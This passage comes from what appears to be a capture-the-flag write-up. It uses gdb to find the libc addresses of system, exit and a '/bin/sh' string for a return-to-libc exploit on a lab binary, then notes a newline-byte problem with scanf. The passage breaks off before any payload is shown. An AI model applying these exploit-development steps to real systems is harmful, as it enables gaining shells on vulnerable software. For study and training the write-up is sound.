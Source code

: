```

(gdb) p &system
No symbol table is loaded.  Use the "file" command.

```

I’ll put a breakpoint at `main`, and run to that:

```

(gdb) b main
Breakpoint 1 at 0xca0
(gdb) r
Starting program: /bin/lcars 

Breakpoint 1, 0x56555ca0 in main ()
(gdb)

```

Now `p` (or `print`) will get the addresses:

```

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e4c060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e3faf0 <exit>

```

`find` will look for a string between two memory addresses. I know there’s a ““/bin/sh” in libc, so I’ll search from the start of libc out an arbitrary amount (if I don’t find it, make it a bit bigger):

```

(gdb) find 0xf7e32000,+5000000,"/bin/sh"
0xf7f70a0f
warning: Unable to access 16000 bytes of target memory at 0xf7fca797, halting search.
1 pattern found.

```

There’s a address, and I can verify it with `x/s` (display string):

```

(gdb) x/s 0xf7f70a0f
0xf7f70a0f:     "/bin/sh"

```

The problem with that address is that it has an 0x0a byte in it. That’s the ASCII code for newline. The `scanf` function was reading `%s`, which, looking at the [docs](https://www.cplusplus.com/reference/cctype/isspace/):

